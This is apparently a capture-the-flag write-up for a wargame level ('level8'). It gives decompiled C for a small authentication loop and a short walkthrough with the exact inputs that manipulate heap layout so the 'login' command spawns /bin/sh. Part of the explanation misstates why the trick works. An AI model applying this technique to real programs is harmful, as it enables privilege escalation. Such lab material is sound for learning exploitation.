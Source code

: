 ```c
				continue;
			}
			memset(auth, 0, 4);
			if (strlen(auth_command) < 0x1f) {
				strcpy(auth, auth_command);
			}
		}

		comparison_result = strncmp(input_buffer, "reset", 5);
		if (comparison_result == 0) {
			if (auth != NULL) {
				free(auth);
				auth = NULL;
			}
		}

		comparison_result = strncmp(input_buffer, "service", 7);
		if (comparison_result == 0) {
			service = strdup(service_command);
		}

		comparison_result = strncmp(input_buffer, "login", 5);
		if (comparison_result == 0) {
			if (auth != NULL && *(int *)(auth + 0x20) == 0) {
				fwrite("Password:\n", 1, 10, stdout);
			} else {
				system("/bin/sh");
			}
		}
	}
}

```

## LEVEL8 - EXPLANATION & SOLUTION

1. Heap overflow:

	- The service command uses strdup, which allocates a memory space and copies user data without size validation.
	- This allows overwriting adjacent memory, such as the auth buffer, by overflowing the allocated space.
	- The login command checks if *(auth + 0x20) is non-zero. If true, it triggers the execution of /bin/sh.

2. Strategy:

	- Use the auth command to allocate a 4-byte buffer.
	- Overflow the auth buffer via the service command to modify adjacent memory.
	- Trigger the login command, which now satisfies the condition to execute /bin/sh.

3. Exploit
	```bash
	./level8
	auth AAAA
	service AAAAAAAAAAAAAAA
	login
	```

